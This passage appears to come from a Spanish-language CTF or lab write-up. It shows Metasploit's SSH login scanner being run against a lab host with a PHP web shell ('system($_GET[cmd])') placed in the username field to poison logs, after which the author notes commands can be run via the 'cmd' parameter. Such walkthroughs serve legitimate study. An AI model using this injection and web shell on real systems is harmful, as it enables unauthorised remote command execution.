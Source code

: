 ```console
   BRUTEFORCE_SPEED  5                              yes       How fast to bruteforce, from 0 to 5
   CreateSession     true                           no        Create a new session for every successful login
   DB_ALL_CREDS      false                          no        Try each user/password couple stored in the current
                                                               database
   DB_ALL_PASS       false                          no        Add all passwords in the current database to the li
                                                              st
   DB_ALL_USERS      false                          no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                           no        Skip existing credentials stored in the current dat
                                                              abase (Accepted: none, user, user&realm)
   PASSWORD          loquesea                       no        A specific password to authenticate with
   PASS_FILE                                        no        File containing passwords, one per line
   RHOSTS            fe80::20c:29ff:fe83:8fd5%eth0  yes       The target host(s), see https://docs.metasploit.com
                                                              /docs/using-metasploit/basics/using-metasploit.html
   RPORT             22                             yes       The target port
   STOP_ON_SUCCESS   false                          yes       Stop guessing when a credential works for a host
   THREADS           1                              yes       The number of concurrent threads (max one per host)
   USERNAME          <?php system($_GET[cmd]); ?>   no        A specific username to authenticate as
   USERPASS_FILE                                    no        File containing users and passwords separated by sp
                                                              ace, one pair per line
   USER_AS_PASS      false                          no        Try the username as the password for all users
   USER_FILE                                        no        File containing usernames, one per line
   VERBOSE           false                          yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] fe80::20c:29ff:fe83:8fd5%eth0:22 - Starting bruteforce
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ahora, podemos ver que somos capaces de ejecutar comandos en la máquina víctima a través del query parameter `cmd`
